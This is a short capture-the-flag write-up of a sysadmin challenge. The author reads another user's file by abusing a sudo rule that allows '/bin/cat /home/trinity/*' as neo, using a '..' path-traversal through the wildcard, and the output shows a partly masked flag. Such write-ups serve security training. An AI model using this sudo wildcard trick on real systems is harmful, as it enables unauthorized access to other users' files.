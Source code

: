 # Sysadmin part 6 - Challenge 90

There's a phonebook file in our home directory but we can't read it because it's owned by neo. After looking around for a while I found that we have sudo rights as neo to our own directory.

```
trinity@forensics:~$ sudo -l
Matching Defaults entries for trinity on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, insults

User trinity may run the following commands on this host:
    (neo) /bin/cat /home/trinity/*
```

Aw, that's too bad, nothing interesting in the phonebook...

```
trinity@forensics:~$ sudo -u neo /bin/cat /home/trinity/*      
The Oracle        1800-133-7133
Persephone        345-555-1244    
```

With a little experimentation, I found that the wildcard * allows us to follow path upstream as well (.. is included). So we can go into neo's directory and read his phonebook..

```
trinity@forensics:~$ sudo -u neo /bin/cat /home/trinity/../neo/phonebook
The Oracle        1800-133-7133
Persephone        345-555-1244

change my current password FLAG-lRGLKGh2***************
don't forget to remove this :)
```
